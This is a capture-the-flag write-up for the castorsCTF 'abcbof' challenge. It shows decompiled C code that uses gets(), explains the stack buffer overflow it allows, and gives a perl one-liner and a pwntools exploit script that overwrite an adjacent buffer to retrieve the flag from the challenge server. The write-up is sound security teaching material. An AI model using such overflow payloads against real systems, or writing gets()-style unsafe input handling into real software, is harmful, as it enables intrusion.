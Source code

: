 # abcbof

## Description

Author: Lunga

```
nc chals20.cybercastors.com 14424
```

## Analysis

Open the binary with Ghidra and look at `main()`. This one is really simple.

```c
undefined8 main(void)

{
  int iVar1;
  char local_118 [256];
  char local_18 [16];
  
  printf("Hello everyone, say your name: ");
  gets(local_118);
  iVar1 = strcmp("CyberCastors",local_18);
  if (iVar1 == 0) {
    get_flag();
  }
  puts("You lose!");
  return 0;
}
```

If `local_18` contains "CyberCastors", then it invokes `get_flag()`. `local_18` is right after our input buffer `local_118`, so all we have to do is overflow the input buffer. Write 256 chars to fill up the input buffer and then "CyberCastors" immediately after that.

## Solution

Try it out locally first.

```
root@kali:~/Downloads# cat flag.txt 
hello
root@kali:~/Downloads# perl -e 'print "A"x256 . "CyberCastors"' | ./abcbof
Hello everyone, say your name: hello
```

Now write up a script to get the real flag from the remote server.

```python
#!/usr/bin/env python3
from pwn import *
p = remote('chals20.cybercastors.com', 14424)
payload = b'A' * (256)
payload += b'CyberCastors'
p.recvuntil('say your name:')
p.sendline(payload)
p.interactive()
```

```
root@kali:~/Downloads# ./abcbof-exploit.py 
[+] Opening connection to chals20.cybercastors.com on port 14424: Done
[*] Switching to interactive mode
 AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAACyberCastors
castorsCTF{b0f_4r3_n0t_th4t_h4rd_or_4r3_th3y?}[*] Got EOF while reading in interactive
$ 
```

The flag is:

```
castorsCTF{b0f_4r3_n0t_th4t_h4rd_or_4r3_th3y?}
```

